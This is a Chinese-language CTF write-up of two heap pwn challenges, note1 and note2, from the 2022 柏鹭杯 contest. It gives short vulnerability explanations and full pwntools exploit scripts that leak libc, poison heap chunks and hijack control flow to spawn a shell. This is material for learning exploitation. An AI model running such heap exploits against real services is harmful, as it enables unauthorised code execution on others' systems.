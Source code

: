 ```yaml
---
title: 2022 柏鹭杯 pwn Writeup
date: 2022-09-16 06:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=45/
pin: false
published:
---
```


## note1

![image-20220916152727115](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220916152727115.png)

漏洞点在3功能call会引用一个放在堆上的show功能的地址，以及放在堆上参数

![image-20220916152740387](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220916152740387.png)

在edit_name功能中将堆块释放后未置空就再次申，导致了堆叠

![image-20220916153013589](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220916153013589.png)

利用edit将管理结构体中的堆块地址换成got表的地址泄露libc，再将用同样的方式把ptr+8换成system，ptr换成/bin/sh即可

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import os
import hashlib
from hashlib import sha256

context.log_level = "debug"
context.arch = "amd64"
# context.terminal = ['cmd.exe', '/c', 'wt.exe', '-w', '0','--title', 'gdb', 'bash', '-c']
context.terminal = ['tmux', 'splitw', '-h']

# p = remote("","")
p = process("./note1")
elf = ELF("./note1")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
ia      = lambda                    :p.interactive()
hs256   = lambda data               :sha256(str(data).encode()).hexdigest()
l32     = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
l64     = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
uu32    = lambda                    :u32(p.recv(4).ljust(4,'\x00'))
uu64    = lambda                    :u64(p.recv(6).ljust(8,'\x00'))
int16   = lambda data               :int(data,16)
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------
def add(idx,size,name,tag,func):
    sla("> ",1)
    sla("id: ",idx)
    sla("name_length: ",size)
    p.sendlineafter("name: ",name)
    p.sendlineafter("tag: ",tag)
    sla("func: ",func)

def edit_name(idx,size,name):
    sla("> ",2)
    sla("id: ",idx)
    sla("> ",1)
    sla("name_length: ",size)
    p.sendlineafter("name: ",name)

def edit_tag(idx,tag):
    sla("> ",2)
    sla("id: ",idx)
    sla("> ",2)
    p.sendafter("new tag: ",tag)

def edit_func(idx,func):
    sla("> ",2)
    sla("id: ",idx)
    sla("> ",3)
    sla("func: ",func)  

def call(idx):
    sla("> ",3)
    sla("id: ",idx)

add(0,0x500,'b'*0x100,'', 1)
edit_tag(0,'a' * 8)
edit_func(0, 1)
call(0)
p.recvuntil("aaaaaaaa")
base = uu64()-0x131b
lg('base')
printf_got = base + 0x3FA8

edit_name(0, 0x17, '')
add(1,0x17,'','',1)
edit_name(0, 0x101,'b'*0x20 + p64(0) + p64(base + 0x131b)+p64(print_got))
call(1)
ru("name: ")
libc_base = l64()-0x61c90
lg('libc_base')
system = libc_base + 0x52290
edit_name(0, 0x101,'b' * 0x20 +'/bin/sh\x00' + p64(system))
call(1)
ia()
```

## note2

有2种方法，具体分析可看第一种方法，用house of banana求解：

[https://blog.e4l4.com/posts/IO%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#note2](https://blog.e4l4.com/posts/IO%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#note2)

第二种方法是利用任意地址写去修改程序的基地址(link_map)，程序返回时会调用的fini_array数组里的内容，导致触发one_gadget

![image-20220922151335506](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220922151335506.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import os
import hashlib
from hashlib import sha256

# context.log_level = "debug"
context.arch = "amd64"
context.terminal = ['tmux', 'splitw', '-h']

# p = remote("39.101.69.5","12032")
# p = process('./ld-2.33.so ./TinyNote'.split(),env={'LD_PRELOAD':'./libc-2.33.so'})
p = process("./note2")
elf = ELF("./note2")
libc = ELF("./libc.so.6")

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
ia      = lambda                    :p.interactive()
hs256   = lambda data               :sha256(str(data).encode()).hexdigest()
l32     = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
l64     = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
uu32    = lambda                    :u32(p.recv(4).ljust(4,'\x00'))
uu64    = lambda                    :u64(p.recv(6).ljust(8,'\x00'))
int16   = lambda data               :int(data,16)
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

def add(idx,size,con=''):
    sla("> ",1)
    sla("> ",idx)
    sla("> ",size)
    p.sendlineafter("Enter content: ",con)

def show(idx):
    sla("> ",3)
    sla("> ",idx)

def dele(idx):
    sla("> ",2)
    sla("> ",idx)


for i in range(10):
    add(i,0x90)
for i in range(8):
    dele(i)
show(7)
libc_base = l64()-0x219ce0
lg('libc_base')
link_map = libc_base+0x2712e0

show(0)
key = u64(p.recv(5).ljust(8,'\x00'))
lg("key")
heap_base = key<<12
lg("heap_base")

dele(8)
add(0,0x90)
dele(8)

add(1,0xc0,'a'*0xa0+p64((link_map)^key))
add(2,0x90,p64(libc_base + 0xebcf1))# +0x7a0
add(3,0x90,p64(heap_base+0x7a0-0x3d78))
sla("> ",4)

ia()
```



